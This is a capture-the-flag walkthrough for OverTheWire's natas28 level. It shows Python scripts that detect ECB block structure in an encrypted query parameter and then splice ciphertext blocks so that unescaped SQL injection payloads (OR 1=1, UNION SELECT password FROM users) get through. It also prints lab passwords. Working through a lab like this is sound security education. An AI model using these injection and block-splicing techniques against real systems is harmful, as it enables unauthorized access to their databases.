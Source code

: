 ```yaml
---
title: natas 28 walkthrough
description: over the wire natas 28
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-28 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 28 walkthrough
    order: 30
---
```

## Description
> Username: natas28
> 
> URL:      http://natas28.natas.labs.overthewire.org


---
## Progress
### Observation
#### Payload
After pressing search, the url turns into `search.php` with query. Therefore, directly check endpoint `search.php` page. Nothing but only `mep` three characters.

Let us play with payload. Query with nothing offers 
> **Notice**: Uninitialized string offset: -1 in **/var/www/natas/natas28/search.php** on line **59**  
> Zero padding found instead of PKCS#7 padding

After collecting two search content, one can get two different queries. Extract the identical part. `G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjP`. Use it in query.
> **Notice**: Trying to access array offset on value of type bool in **/var/www/natas/natas28/search.php** on line **59**  
> Zero padding found instead of PKCS#7 padding

With some search, I found an attack exploiting the padding, i.e., [[padding oracle attack]]. In the example, this technique is applied on CBC. Therefore, we need to check the block.
```python
def extract_query(url: str):
    parsed_url = urlparse(url)
    captured_value = parse_qs(parsed_url.query)['query'][0]
    return captured_value

def retrieve_queries():
    for i in range(50):
        main_url = "http://natas28.natas.labs.overthewire.org/index.php"
        payload = {
            "query" : "vegetable"+ str(i),
        }
        response = requests.post(main_url, auth=authentication, data=payload)
        print(f"{i} : {extract_query(response.url)}")

retrieve_queries()
```
Fortunately, I think every block would generate a ciphertext with a length of 22 characters. Moreover, it might be ECB not CBC, since the result changes only in some parts but not all the following characters.
```
38 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKgHAUWGVPjoODSBsJiKJzEkLLjc1SH4XdytO9O2yi2pcqM9OYQkTq645oGdhkgSlo=
39 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKgHAUWGVPjoODSBsJiKJzEDKWsasNjmRfPW2n4Q5AJi8qM9OYQkTq645oGdhkgSlo=
40 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLls2NGuivaJj7H9Gh39NKKjSIK5YYioto3e8rvAi/UwsqM9OYQkTq645oGdhkgSlo=
41 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLls2NGuivaJj7H9Gh39NKKyzdjv0KNaoXsfXBKUOlzXcqM9OYQkTq645oGdhkgSlo=
42 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLls2NGuivaJj7H9Gh39NKKbgKivJnOqZsklwsoFwNeJMqM9OYQkTq645oGdhkgSlo=
```
With manipulating the length of the query, I found the block size might be 16 characters long.
> Block size: 16
> Ciphertext block size (in base64): 22
```python
def retrieve_queries():
    for i in range(50):
        response = main_req("v" * i)
        print(f"{i} : {extract_query(response.url)}")
```
The first block and the second block are all fixed. The third block is fixed after `i=10`. When `i=13`, the length of ciphertext changes. 

From all the ciphertext, I think the plaintext would be `prefix` + `payload` + `suffix`.
Length
- prefix : 16\*2 + (16-10) = 38
- suffix : (16-(12-10))+16 = 30

Since it seems to be ECB, [[padding oracle attack]] might be useless here.
### Crack Suffix (Meaningless)
```python
import requests
from requests.auth import HTTPBasicAuth
from urllib.parse import urlparse
from urllib.parse import parse_qs
import string

username = "natas28"
password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"
authentication = HTTPBasicAuth(username, password)

def main_req(query:str):
    main_url = "http://natas28.natas.labs.overthewire.org/index.php"
    payload = {
        "query" : query,
    }
    response = requests.post(main_url, auth=authentication, data=payload)
    return response

def extract_query(url: str):
    parsed_url = urlparse(url)
    captured_value = parse_qs(parsed_url.query)['query'][0]
    return captured_value

def are_block3_same(query1, query2):
    return query1[42:64] == query2[42:64]

def main():
    success_password = ""
    N = 10
    while len(success_password) < N:
        length_success = len(success_password)
        pure_payload = "1"*(N-length_success-1)
        target_query = extract_query(main_req(pure_payload).url)
        for candidate in string.printable:
            manipulated_payload = "1"*(N-length_success-1) + success_password + candidate
            manipulated_query = extract_query(main_req(manipulated_payload).url)
            if are_block3_same(manipulated_query, target_query):
                success_password += candidate
                print(f"{success_password}")
                break
        else:
            print(f"password : {success_password}")
            break

if __name__ == "__main__":
    main()
```
password : %
failed to find the suffix.
### Special Characters
However, try to add special (escape) character into payloads.
```python
def compare_queries():
    response = main_req("1"*9 + "\\")
    print(f"padding 1 : {extract_query(response.url)}")
    response = main_req("1"*9 + "'")
    print(f"padding 2 : {extract_query(response.url)}")
    response = main_req("1"*9 + "\"")
    print(f"padding 3 : {extract_query(response.url)}")
```
The differences between them are all in the fourth block. That means the plaintext in the third block are identical. It might be the characters should be escaped. 

Therefore, I guess the process is
getting input from user → escape characters → ECB → request with encrypted payload → decrypt the payload → sql

### Plan
If the process is as I guessed, one can perform sql attack with malicious enrypted payload, that is, not escaped characters.
```python
if __name__ == "__main__":
    response = main_req("2"*9 + "' OR 1=1 -- ")
    last_part = extract_query(response.url)[64:]
    response = main_req("2"*10)
    first_part = extract_query(response.url)[:64]
    mal_query = first_part + last_part
    response = requests.get("http://natas28.natas.labs.overthewire.org/search.php/?query="+quote(mal_query),
                  auth=authentication)
    print(get_content(response))
```
Succeed!
We need to get the info about users table. Therefore, we need to use [[union attack]].
```python
"' OR 1=1 ORDER BY 1-- " ## determine the column of the original sql
"' UNION SELECT username FROM users-- " ## get all the users, found only one
"' UNION SELECT password FROM users-- " ## retrieve the password of the only user
```
Finally, we get pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno

---
## Hint

---
## Solving
### Category
- 
### Techniques
- [[union attack]]

### Tools
- 
